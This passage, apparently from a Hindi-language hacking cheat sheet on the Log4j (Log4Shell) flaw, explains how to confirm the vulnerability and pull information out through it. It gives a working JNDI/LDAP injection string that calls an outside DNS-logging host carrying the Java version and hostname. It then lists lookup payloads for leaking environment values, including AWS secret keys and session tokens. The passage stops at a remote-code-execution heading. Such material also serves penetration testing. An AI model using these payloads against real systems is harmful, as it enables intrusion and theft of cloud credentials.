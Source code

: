 कुछ प्लेटफार्म जो पहले सूचीबद्ध हैं, आपको कुछ वेरिएबल डेटा डालने की अनुमति देंगे जो जब अनुरोध किया जाएगा तो लॉग किया जाएगा।\
यह 2 चीजों के लिए बहुत उपयोगी हो सकता है:

* **कमजोरी** की **पुष्टि** करने के लिए
* कमजोरी का दुरुपयोग करके **जानकारी निकालने** के लिए

उदाहरण के लिए, आप कुछ इस तरह अनुरोध कर सकते हैं:\
या जैसे `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** और यदि **env वेरिएबल के मान के साथ DNS अनुरोध प्राप्त होता है**, तो आप जानते हैं कि एप्लिकेशन कमजोर है।

अन्य जानकारी जिसे आप **लीक** करने की कोशिश कर सकते हैं:
```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```
### RCE Information
